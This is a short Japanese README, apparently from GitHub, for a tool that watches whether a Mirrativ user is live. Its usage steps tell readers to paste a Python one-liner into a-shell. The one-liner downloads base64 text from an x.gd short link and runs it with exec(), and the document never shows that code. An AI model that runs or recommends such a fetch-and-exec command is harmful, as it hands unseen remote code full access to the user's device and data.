 # Mirrativ Show Viewer 使い方


```python
import requests as r, base64; exec(base64.b64decode(r.get('https://x.gd/638RgP').text).decode() + "\nmain(a,b,c)")
```

### 各説明

・a
`繰り返し回数`.(おすすめは100<回>)

・b
`1回辺りの待機時間`.(おすすめは60<1分>)
1回チェックしてからb秒待機して出力
2とかにするとほぼ毎秒チェックしてくれます

・c
`ユーザーID`.(ミラティブのユーザーID)
ここにチェックしたいユーザーIDを打ちます

### 使用例

まずコードの`a,b,c`の箇所を書き換えます
コード最後の方の\nmain〜〜の所
```python
import requests as r, base64; exec(base64.b64decode(r.get('https://x.gd/638RgP').text).decode() + "\nmain(a,b,c)")
```

①書き換えたプログラム全文を`コピー`。
```python
import requests as r, base64; exec(base64.b64decode(r.get('https://x.gd/638RgP').text).decode() + "\nmain(100,2,12345678)")
```

②次に、a-shellのターミナルに
`python`
と打ちます。

③pythonが起動するのでそこにコピーしたのを`貼り付け`。


プログラムを中止したい時はタスクを切ればOK
再開したい時は①からすれば出来ます。



